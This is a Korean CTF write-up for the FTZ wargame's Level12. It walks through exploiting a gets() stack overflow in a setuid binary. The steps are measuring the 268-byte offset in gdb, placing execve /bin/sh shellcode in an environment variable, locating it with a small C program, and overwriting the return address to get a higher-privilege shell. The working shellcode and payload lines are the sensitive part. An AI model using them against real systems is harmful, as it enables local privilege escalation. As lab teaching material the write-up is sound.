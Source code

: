 # FTZ Level12

#### ID : level12 PW: it is like this
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
      char str[256];                  # 256바이트 크기의 문자형 배열
      
      setreuid(3093, 3093);           #level13의 프로세스 ID
      printf("문장을 입력하세요.\n");
      gets(str);                      #gets 함수로 배열 str에 입력을 받음
      printf("%s\n", str);            #입력받은 내용 출력
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br><br>
우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담아 오버플로우를 일으킨 후 ret까지 도달해 ret에 쉘 코드 주소를 넣을 것이다. 
그렇다면..!!!<br>
1. str[256]에서 ret까지의 거리 구하기
2. 환경변수로 쉘 코드 등록하고 위치 찾는 코드를 짜 주소 확인하기
3. ret 위치까지 갈 페이로드 작성하기
4. 작성한 페이로드로 공격해 쉘 획득하기!!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 esp에서 0x108만큼 빼고 있다. 여기서 0x108은 10진수로 264이다.<br>
필요한 공간은 str배열의 크기인 256일텐데 왜 264나 자리를 마련했을까?<br>
바로 dummy다! 8byte의 dummy가 존재하는 것이다. ~~(왜 존재할까)~~<br>

ret전에 sfp 4바이트가 존재할테니 결론적으로 말하면<br>
**str에서 ret까지의 거리는 총 268byte이다!**<br>

자, 2번으로 넘어가자.<br>
**다음과 같이 환경변수를 작성해보자.** 쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
페이로드는 ```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```가 될 것이다.<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*268+"\xf4\xfe\xff\xbf";cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level13 Password is "~~". 라고 나올 것이다!!
